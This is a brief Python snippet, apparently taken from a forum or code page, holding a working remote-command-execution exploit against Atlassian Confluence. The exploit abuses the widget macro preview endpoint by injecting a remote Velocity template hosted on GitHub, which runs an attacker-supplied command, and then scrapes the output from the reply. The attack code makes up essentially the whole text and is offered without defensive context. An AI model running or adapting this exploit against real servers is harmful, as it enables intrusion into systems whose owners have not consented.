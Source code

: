 def _exec(url,cmd):
    result = {}
    filename = "https://raw.githubusercontent.com/ba0zi/confluence/master/cmd.vm"

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]
    
    
    https://www.t00ls.net/viewthread.php?tid=50686&extra=&highlight=confluence&page=1
